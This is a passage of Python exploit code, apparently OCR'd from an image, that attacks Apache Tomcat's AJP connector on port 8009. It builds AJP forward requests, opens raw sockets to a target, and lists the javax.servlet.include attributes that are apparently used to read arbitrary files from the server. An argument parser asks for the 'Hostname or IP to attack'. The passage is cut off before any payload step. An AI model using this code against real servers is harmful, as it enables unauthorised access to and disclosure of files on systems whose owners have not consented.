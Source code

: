 ```python
    fr.remote_host = None
    fr.server_name = target_host
    fr.server_port = 80
    fr.request_headers = {
        'SC_REQ_ACCEPT': 'text/html',
        'SC_REQ_CONNECTION': 'keep-alive',
        'SC_REQ_CONTENT_LENGTH': '0',
        'SC_REQ_HOST': target_host,
        'SC_REQ_USER_AGENT': 'Mozilla',
        'Accept-Encoding': 'gzip, deflate, sdch',
        'Accept-Language': 'en-US,en;q=0.5',
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'max-age=0'
    }
    fr.is_ssl = False
    fr.attributes = []
    return fr

class Tomcat(object):
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.socket.connect((target_host, target_port))
        self.stream = self.socket.makefile("rb", bufsize=0)

    def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
        self.req_uri = req_uri
        self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
        print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
        if user is not None and password is not None:
            self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
        for h in headers:
            self.forward_request.request_headers[h] = headers[h]
        for a in attributes:
            self.forward_request.attributes.append(a)
        responses = self.forward_request.send_and_receive(self.socket, self.stream)
        if len(responses) == 0:
            return None, None
        snd_hdrs_res = responses[0]
        data_res = responses[1:-1]
        if len(data_res) == 0:
            print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
        return snd_hdrs_res, data_res

'''
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
'''

import argparse
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
```